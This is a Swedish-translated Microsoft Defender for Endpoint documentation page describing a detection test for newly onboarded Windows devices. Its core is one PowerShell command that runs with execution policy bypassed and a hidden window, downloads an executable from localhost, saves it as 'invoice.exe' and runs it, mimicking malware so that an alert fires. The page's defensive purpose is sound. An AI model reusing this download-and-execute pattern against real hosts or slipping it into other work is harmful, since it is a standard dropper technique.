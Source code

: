```yaml
---
title: Köra ett identifieringstest på en nyligen onboarded Microsoft Defender ATP-enhet
description: Kör identifieringsskriptet på en nyligen onboarded enhet för att verifiera att den är korrekt onboarded till Microsoft Defender ATP-tjänsten.
keywords: identifieringstest, identifiering, powershell, skript, verifiera, onboarding, microsoft defender för slutpunkts onboarding, klienter, servrar, test
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- m365-security-compliance
- m365initiative-defender-endpoint
ms.topic: article
ms.technology: mde
ms.openlocfilehash: 10154a734bb4c3d8b26fffb8618484aeb11f907a
ms.sourcegitcommit: 956176ed7c8b8427fdc655abcd1709d86da9447e
ms.translationtype: MT
ms.contentlocale: sv-SE
ms.lasthandoff: 03/23/2021
ms.locfileid: "51074130"
---
```

# <a name="run-a-detection-test-on-a-newly-onboarded-microsoft-defender-for-endpoint-device"></a><span data-ttu-id="f282f-104">Köra ett identifieringstest på en nyligen onboarded Microsoft Defender för Endpoint-enhet</span><span class="sxs-lookup"><span data-stu-id="f282f-104">Run a detection test on a newly onboarded Microsoft Defender for Endpoint device</span></span> 

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


<span data-ttu-id="f282f-105">**Gäller för:**</span><span class="sxs-lookup"><span data-stu-id="f282f-105">**Applies to:**</span></span>
- <span data-ttu-id="f282f-106">Windows 10-versioner som stöds</span><span class="sxs-lookup"><span data-stu-id="f282f-106">Supported Windows 10 versions</span></span>
- <span data-ttu-id="f282f-107">Windows Server 2012 R2</span><span class="sxs-lookup"><span data-stu-id="f282f-107">Windows Server 2012 R2</span></span>
- <span data-ttu-id="f282f-108">Windows Server 2016</span><span class="sxs-lookup"><span data-stu-id="f282f-108">Windows Server 2016</span></span>
- <span data-ttu-id="f282f-109">Windows Server, version 1803</span><span class="sxs-lookup"><span data-stu-id="f282f-109">Windows Server, version 1803</span></span>
- <span data-ttu-id="f282f-110">Windows Server, 2019</span><span class="sxs-lookup"><span data-stu-id="f282f-110">Windows Server, 2019</span></span>
- [<span data-ttu-id="f282f-111">Microsoft Defender för Endpoint</span><span class="sxs-lookup"><span data-stu-id="f282f-111">Microsoft Defender for Endpoint</span></span>](https://go.microsoft.com/fwlink/?linkid=2154037)
- [<span data-ttu-id="f282f-112">Microsoft 365 Defender</span><span class="sxs-lookup"><span data-stu-id="f282f-112">Microsoft 365 Defender</span></span>](https://go.microsoft.com/fwlink/?linkid=2118804)

> <span data-ttu-id="f282f-113">Vill du uppleva Microsoft Defender för Slutpunkt?</span><span class="sxs-lookup"><span data-stu-id="f282f-113">Want to experience Microsoft Defender for Endpoint?</span></span> [<span data-ttu-id="f282f-114">Registrera dig för en kostnadsfri utvärderingsversion.</span><span class="sxs-lookup"><span data-stu-id="f282f-114">Sign up for a free trial.</span></span>](https://www.microsoft.com/microsoft-365/windows/microsoft-defender-atp?ocid=docs-wdatp-exposedapis-abovefoldlink)

<span data-ttu-id="f282f-115">Kör följande PowerShell-skript på en nyligen onboarded-enhet för att verifiera att den rapporterar till Defender för Slutpunkt-tjänsten.</span><span class="sxs-lookup"><span data-stu-id="f282f-115">Run the following PowerShell script on a newly onboarded device to verify that it is properly reporting to the Defender for Endpoint service.</span></span>

1. <span data-ttu-id="f282f-116">Skapa en mapp: 'C:\test-MDATP-test'.</span><span class="sxs-lookup"><span data-stu-id="f282f-116">Create a folder:  'C:\test-MDATP-test'.</span></span>
2. <span data-ttu-id="f282f-117">Öppna en upphöjd kommandoradsfråga på enheten och kör skriptet:</span><span class="sxs-lookup"><span data-stu-id="f282f-117">Open an elevated command-line prompt on the device and run the script:</span></span>

   1. <span data-ttu-id="f282f-118">Gå till **Start** och skriv **cmd**.</span><span class="sxs-lookup"><span data-stu-id="f282f-118">Go to **Start** and type **cmd**.</span></span>

   1. <span data-ttu-id="f282f-119">Högerklicka på **Kommandotolken** och välj **Kör som administratör.**</span><span class="sxs-lookup"><span data-stu-id="f282f-119">Right-click **Command Prompt** and select **Run as administrator**.</span></span>

      ![Start-menyn i ett fönster som pekar på Kör som administratör](images/run-as-admin.png)

3. <span data-ttu-id="f282f-121">När du uppmanas till det kopierar du och kör följande kommando:</span><span class="sxs-lookup"><span data-stu-id="f282f-121">At the prompt, copy and run the following command:</span></span>

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

<span data-ttu-id="f282f-122">Fönstret Kommandotolken stängs automatiskt.</span><span class="sxs-lookup"><span data-stu-id="f282f-122">The Command Prompt window will close automatically.</span></span> <span data-ttu-id="f282f-123">Om det lyckas markeras det som slutfört och en ny avisering visas i portalen för den onboarded enheten om ungefär 10 minuter.</span><span class="sxs-lookup"><span data-stu-id="f282f-123">If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded device in approximately 10 minutes.</span></span>

## <a name="related-topics"></a><span data-ttu-id="f282f-124">Relaterade ämnen</span><span class="sxs-lookup"><span data-stu-id="f282f-124">Related topics</span></span>
- [<span data-ttu-id="f282f-125">Introducera Windows 10-enheter</span><span class="sxs-lookup"><span data-stu-id="f282f-125">Onboard Windows 10 devices</span></span>](configure-endpoints.md)
- [<span data-ttu-id="f282f-126">Onboard servers</span><span class="sxs-lookup"><span data-stu-id="f282f-126">Onboard servers</span></span>](configure-server-endpoints.md)
- [<span data-ttu-id="f282f-127">Felsöka problem med Introduktion till Slutpunkt för Microsoft Defender</span><span class="sxs-lookup"><span data-stu-id="f282f-127">Troubleshoot Microsoft Defender for Endpoint onboarding issues</span></span>](https://docs.microsoft.com/microsoft-365/security/defender-endpoint/troubleshoot-onboarding)

